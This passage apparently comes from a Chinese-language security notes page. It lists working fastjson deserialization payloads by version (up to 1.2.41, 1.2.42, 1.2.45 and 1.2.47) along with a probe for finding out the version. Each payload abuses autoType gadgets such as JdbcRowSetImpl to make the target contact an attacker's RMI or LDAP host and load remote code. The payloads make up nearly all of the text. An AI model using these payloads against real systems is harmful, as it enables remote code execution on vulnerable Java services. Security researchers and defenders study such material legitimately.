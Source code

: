 ```
          "autoCommit":true
    }
}
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627438056403-75a6070d-65b7-4cb5-9dfb-3248471cc58b.png#height=427&id=SkyY5&originHeight=569&originWidth=623&originalType=binary&ratio=1&rotation=0&showTitle=false&size=46209&status=done&style=none&title=&width=467)![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627438067913-acc4cbc1-9822-4f33-8944-ccc979be99fb.png#height=447&id=cnlap&originHeight=596&originWidth=615&originalType=binary&ratio=1&rotation=0&showTitle=false&size=50953&status=done&style=none&title=&width=461)

<a name="WOZKX"></a>
### 判断版本信息
如果响应包会报错出版本信息的话。<br />{"@type":"java.lang.AutoCloseable"

<a name="h3-3"></a>
### fastjson <= 1.2.41
```
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://x.x.x.x:1098/jndi", "autoCommit":true}
```
<a name="h3-4"></a>
### fastjson <= 1.2.42 漏洞
```
{
    "b":{
        "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
        "dataSourceName":"rmi://xx.x.xx.xx:9999/poc",
        "autoCommit":true
    }
}
```

<a name="h3-5"></a>
### fastjson <= 1.2.45漏洞
```
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/Exploit"}}
```

<a name="h3-6"></a>
### fastjson <= 1.2.47漏洞
```
{
"a": {
          "@type": "java.lang.Class",
          "val": "com.sun.rowset.JdbcRowSetImpl"
      },
      "b": {
          "@type": "com.sun.rowset.JdbcRowSetImpl",
          "dataSourceName": "rmi://x.x.x.x:1098/jndi",
          "autoCommit": true
} }
```
